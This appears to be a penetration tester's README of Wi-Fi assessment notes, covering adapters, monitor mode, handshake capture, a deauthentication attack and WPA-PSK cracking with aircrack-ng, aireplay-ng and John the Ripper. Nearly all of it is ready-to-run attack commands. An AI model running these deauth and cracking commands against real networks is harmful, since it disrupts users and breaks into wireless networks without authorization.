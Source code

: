 # Wi-Fi Assessment Techniques

These are techniques that I have found to work during Wi-Fi assessments (discovery, collection, attack, and crack). This isn't an "end all, be all" list.</br>

# Hardware:
* Need Atheros chipset in the wireless adapter
	* [Check wireless card](https://www.aircrack-ng.org/doku.php?id=compatible_cards)
* Wireless cards that I have used and work:
	* TP-Link TL-WN722N
		* has to be earlier than version 2 due to TP-Link updating the chips on the adapters.
	* Alfa AWUS051NH

# Configuration: System Setup with Hardware
* Might need to kill Network Manager
```
/etc/init.d/network-manager status
```
```
/etc/init.d/network-manager stop
```
* Ensure hardware is connected
```
lsusb
```
* Check wireless status of network adapter
```
iwconfig
```
* If need to bring up the interface
```
ifconfig wlan0 up
```
* This is an optional step: can stay in Managed mode and scan to do light discovery
```
iwlist wlan0 scanning
```

# Monitor Mode
* Kill specific process that hinder aircrack-ng.
```
airmon-ng check kill
```
* This sets wlan0 into Monitor mode. This sets a new interface, typically, mon0 or a variation of ie. wlanmon0
```
airmon-ng start wlan0
```
* Monitor for traffic on Monitor interface (i.e. mon0)
```
airodump-ng mon0 
```
* Stopping Monitor Mode when needed
```
airmon-ng stop wlan0mon
```

# Capture traffic
* Interface will your monitor interface that was set above i.e. mon0
```
airodump-ng -c <Channel> --bssid <AP_MAC> -w <File_Prefix> <interface>
```

# WPA-PSK Attack
* Attacking WPA-PSK - Goal: acquire PSK (pre-shared key)
- Need to identify:
	* Name of the wireless network (ESSID)
	* MAC address of the AP (BSSID)
	* Channel that the AP
	* Victim MAC
	* need to capture 4 way handshake
	* Then crack - see below

# Deauth Attack
* In one terminal collect
``` 
airodump-ng -c <CHANNEL> --bssid  <AP_MAC> -w <FILE_PREFIX> <INTERFACE>
```
* In another termainl deauth
```
aireplay-ng --deauth 25 -a <AP_MAC> -c <VICTIM_MAC> <INTERFACE>
```

# Cracking
* Crack with John the Ripper
```
/usr/sbin/john --rules -w=/usr/share/wordlists/rockyou.txt --stdout | aircrack-ng -w - -e <essid> capture.cap
```
* Brute-Force to get the WPA Key (assumption is the packet capture contains the 4 way handshake)
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture.pcap
```
* I've heard hashcat is more effective but I've have not tried this method.

# Wireshark Tips
* Don't forget to add encryption key information to Wireshark
	* From Menu options: Edit->Preferences->IEEE 802.11
